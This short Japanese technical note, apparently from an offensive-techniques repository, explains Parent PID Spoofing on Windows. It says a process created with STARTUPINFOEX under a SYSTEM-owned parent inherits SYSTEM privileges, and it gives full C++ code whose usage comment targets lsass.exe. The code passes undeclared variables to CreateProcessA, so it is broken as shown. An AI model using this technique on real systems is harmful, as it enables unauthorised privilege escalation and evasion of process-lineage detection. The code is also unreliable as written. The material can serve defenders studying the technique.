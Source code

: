 # Parent PID Spoofing

新しく作成されるプロセスには作成元の親プロセスがあります。
例えば、普通にnotepad(子プロセス)を開けば、explorerが親プロセスになります。

## Escalation
子プロセスは親プロセスの設定を引き継ぎます。
なので、`nt authority\system`権限で作成されているプロセスの子プロセスとして作成することで子プロセスも同じ権限で作成することができます。

### STARTUPINFOEX
[STARTUPINFO](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa)の拡張で[STARTUPINFOEX](https://docs.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-startupinfoexa)があります。
これを使うことで新しく作成するプロセスの親プロセスを指定することが可能です。

### Flow
1. [InitializeProcThreadAttributeList](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist): 属性リストの初期化
1. [UpdateProcThreadAttribute](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute): 属性リストの更新
1. [CreateProcessA](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa): プロセスを作成

### Code
```cpp
#include <Windows.h>

typedef struct _PROC_THREAD_ATTRIBUTE_ENTRY
{
	DWORD_PTR   Attribute;
	SIZE_T      cbSize;
	PVOID       lpValue;
} PROC_THREAD_ATTRIBUTE_ENTRY, * LPPROC_THREAD_ATTRIBUTE_ENTRY;

typedef struct _PROC_THREAD_ATTRIBUTE_LIST
{
	DWORD                          dwFlags;
	ULONG                          Size;
	ULONG                          Count;
	ULONG                          Reserved;
	PULONG                         Unknown;
	PROC_THREAD_ATTRIBUTE_ENTRY    Entries[ANYSIZE_ARRAY];
} PROC_THREAD_ATTRIBUTE_LIST, * LPPROC_THREAD_ATTRIBUTE_LIST;

// Using: main.exe <Process id of lsass.exe>
int main(int argc, char* argv[]) {
  DWORD parentProcessId{ atoi(argv[1]) };
  LPSTARTUPINFOEXA lpsiex{ new STARTUPINFOEXA() };
  LPPROCESS_INFORMATION lppi{ new PROCESS_INFORMATION() };
  PSIZE_T lpSize{ new SIZE_T() };
  bool success{ false };

  SecureZeroMemory(lpsiex, sizeof(*lpsiex));
  SecureZeroMemory(lppi, sizeof(*lppi));

  success = InitializeProcThreadAttributeList(NULL, 1, 0, lpSize);
  if (success || *lpSize == 0)
    return false;

  lpsiex->lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, *lpSize);
  if (lpsiex->lpAttributeList == nullptr) {
    HeapFree(GetProcessHeap(), HEAP_NO_SERIALIZE, lpsiex->lpAttributeList);
    return false;
  }

  success = InitializeProcThreadAttributeList(lpsiex->lpAttributeList, 1, 0, lpSize);
  if (!success) {
    HeapFree(GetProcessHeap(), HEAP_NO_SERIALIZE, lpsiex->lpAttributeList);
    return false;
  }

  HANDLE hProcess{ OpenProcess(MAXIMUM_ALLOWED, FALSE, parentProcessId) };
  if (!hProcess) {
    HeapFree(GetProcessHeap(), HEAP_NO_SERIALIZE, lpsiex->lpAttributeList);
    return false;
  }

  success = UpdateProcThreadAttribute(
    lpsiex->lpAttributeList,
    0,
    PROC_THREAD_ATTRIBUTE_PARENT_PROCESS,
    &hProcess,
    sizeof(hProcess),
    nullptr,
    nullptr
  );

  lpsiex->StartupInfo.cb = sizeof(*lpsiex);

  bool result = CreateProcessA(
    lpApplicationName,
    lpCommandLine,
    nullptr,
    nullptr,
    false,
    EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE,
    nullptr,
    nullptr,
    &lpsiex->StartupInfo,
    lppi
  );

  if (lppi->hThread)
    CloseHandle(lppi->hThread);
  if (lppi->hProcess)
    CloseHandle(lppi->hProcess);
  HeapFree(GetProcessHeap(), HEAP_NO_SERIALIZE, lpsiex->lpAttributeList);
  return result;
}
```